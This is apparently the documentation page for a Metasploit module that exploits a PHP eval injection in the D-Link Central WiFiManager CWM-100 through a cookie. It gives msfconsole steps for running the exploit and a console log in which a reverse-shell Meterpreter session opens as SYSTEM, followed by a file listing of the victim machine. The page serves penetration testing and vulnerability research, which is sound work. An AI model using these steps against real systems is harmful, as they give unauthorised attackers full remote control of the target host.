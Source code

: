 ## Vulnerable Application

### Introduction

This module exploits a PHP code injection vulnerability in D-Link Central WiFiManager CWM‑100,
the vulnerability exists because a user-controlled cookie is passed to the eval function without being
sanitized.

Because the HTTP server runs in the context of a privilegied user (with a default installation),
successful exploitation results in code execution as nt_authority\system.

a vulnerable version is available at DLink's vulnerability announcement:
- [The announcenment](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10117)
- [Direct download link](ftp://ftp2.dlink.com/SOFTWARE/CENTRAL_WIFI_MANAGER/CENTRAL_WI-FI_MANAGER_1.03.zip)

## Verification Steps

1. Start `msfconsole`
2. Do: `use windows/http/dlink_central_wifimanager_rce`
3. Do: `set RHOSTS [RHOSTS]`
4. Check the payload options: `show options`
5. Do: `exploit`
6. Verify that you get a shell / meterpreter / that whatever payload you used was executed

## Options

No additional options

## Scenarios

### CWM-100 v1.03

#### Getting a meterpreter session

```
msf5 exploit(windows/http/dlink_central_wifimanager_rce) > 
msf5 exploit(windows/http/dlink_central_wifimanager_rce) > exploit 

[*] Started reverse TCP handler on 192.168.1.222:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (38288 bytes) to 192.168.1.223
[*] Meterpreter session 1 opened (192.168.1.222:4444 -> 192.168.1.223:1783) at 2020-08-13 14:51:09 +0200

meterpreter > sysinfo
Computer    : REVM-PC
OS          : Windows NT REVM-PC 6.1 build 7601 (Windows 7 Professional N Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter > getuid 
Server username: SYSTEM (0)
meterpreter > pwd
C:\Program Files (x86)\D-Link\Central WifiManager\web
meterpreter > ls
Listing: C:\Program Files (x86)\D-Link\Central WifiManager\web
==============================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100666/rw-rw-rw-  177     fil   2014-09-16 16:19:18 +0200  .htaccess
100666/rw-rw-rw-  138884  fil   2016-01-28 13:36:32 +0100  AP_Installation_utility_for_cwm.zip
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:25 +0200  CapLoginStyle
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:25 +0200  Common
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:45 +0200  Conf
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:25 +0200  DBBackup
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:44 +0200  Lang
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:26 +0200  Lib
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:45 +0200  Public
100666/rw-rw-rw-  256     fil   2014-09-16 16:19:18 +0200  README.txt
40777/rwxrwxrwx   0       dir   2020-08-13 13:02:13 +0200  Runtime
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:27 +0200  ThinkPHP
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:26 +0200  Tpl
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:38 +0200  captivalportal
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:36 +0200  ckeditor
100666/rw-rw-rw-  15086   fil   2014-09-16 16:19:18 +0200  favicon.ico
100666/rw-rw-rw-  158     fil   2014-09-16 16:19:18 +0200  index.php
100666/rw-rw-rw-  122     fil   2015-10-29 14:17:48 +0100  redrect.php
100666/rw-rw-rw-  211     fil   2014-09-16 16:19:18 +0200  robots.txt
```
